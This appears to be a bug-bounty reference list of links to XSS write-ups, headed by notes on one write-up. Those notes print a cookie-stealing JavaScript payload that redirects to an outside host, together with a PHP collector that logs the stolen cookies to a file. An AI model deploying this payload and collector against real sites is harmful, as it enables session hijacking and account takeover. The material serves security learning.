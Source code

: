 - [The tricky XSS](https://smaranchand.com.np/2020/02/the-tricky-xss/)

1.XSS payload by Dr. Mario

2.minimal code for stealing cookies and sending it to a remote server

    document.location='https://ł.rip/save.php?c='+document.cookie;

3.source code of save.php file is given below which would save the cookie into a text file

>     <?php
>     header('Location:https://yourdomain.com');
>     $cookies = $_GET["c"];
>     $file = fopen('logs.txt', 'a');
>     fwrite($file, $cookies . "\n\n");
>     ?>
     
4.The cookies will be saved in logs.txt file in the remote server, we can capture mouse movement, keystrokes as well

5.And then I confirmed the working of the script by executing at my own end and here we go. Biscuits coming to our remote server

6.Now opening logs.txt, just to confirm the cookies.

7.Unfortunately, the XSS never got executed in the shop admin dashboard/backend


- [Reflected XSS  in AT&T](https://medium.com/@godofdarkness.msf/reflected-xss-in-at-t-7f1bdd10d8f7)
- [XSS on Google using Acunetix ](https://www.acunetix.com/blog/web-security-zone/xss-google-acunetix/)
- [Exploiting websocket application wide XSS](https://medium.com/@osamaavvan/exploiting-websocket-application-wide-xss-csrf-66e9e2ac8dfa)
- [Reflected XSS with  HTTP Smuggling ](https://hazana.xyz/posts/escalating-reflected-xss-with-http-smuggling/)
- [XSS on Facebook instagram CDN server bypassing signature protection ](https://www.amolbaikar.com/xss-on-facebook-instagram-cdn-server-bypassing-signature-protection/)
- [XSS on Facebook's Acquisition Oculus](https://www.amolbaikar.com/xss-on-facebooks-acquisition-oculus-cdn-server/)
- [XSS on sony Subdomain ](https://medium.com/@gguzelkokar.mdbf15/xss-on-sony-subdomain-feddaea8f5ac)
- [Exploiting Self XSS ](https://footstep.ninja/posts/exploiting-self-xss/)
- [Effortlessly Finding Cross Site Scripting inclusion XSSI ](https://medium.com/bugbountywriteup/effortlessly-finding-cross-site-script-inclusion-xssi-jsonp-for-bug-bounty-38ae0b9e5c8a)
- [Bugbounty a DOM XSS](https://jinone.github.io/bugbounty-a-dom-xss/)
- [Blind XSS : a mind Game ](https://medium.com/@dirtycoder0124/blind-xss-a-mind-game-to-win-the-battle-4fc67c524678?)
- [FireFox IOS QR code reader XSS(CVE-2019-17003)](https://payatu.com/blog/nikhil-mittal/firefox-ios-qr-code-reader-xss-(cve-2019-17003))
- [HTML injection to XSS](https://evanricafort.blogspot.com/2019/12/html-injection-to-xss-bypass-in.html)
- [XSS at error page of repository code ](https://medium.com/@navne3t/150-xss-at-error-page-of-respository-code-4fc628892742)
- [XSS like a Pro](https://www.hackerinside.me/2019/12/xss-like-pro.html)
- [How I turned self XSS to stored XSS via CSRF](https://medium.com/@abhishake100/how-i-turned-self-xss-to-stored-via-csrf-d12eaaf59f2e)
- [XSS Stored on Outlook web](https://medium.com/@elmrhassel/xss-stored-on-outlook-web-outlook-android-app-ad4bd46b8823)
- [XSS Bug 20 Chars Blind XSS Payload](https://medium.com/@mohameddaher/how-i-paid-2-for-1054-xss-bug-20-chars-blind-xss-payloads-12d32760897b)
- [XSS in AMP4EMAIL(DOM clobbering)](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
- [DOM Based XSS bug bounty writeup](https://hacknpentest.com/dom-based-xss-bug-bounty-writeup/)
- [XSS will never die ](https://medium.com/@04sabsas/xss-will-never-die-eb3584081a5f)
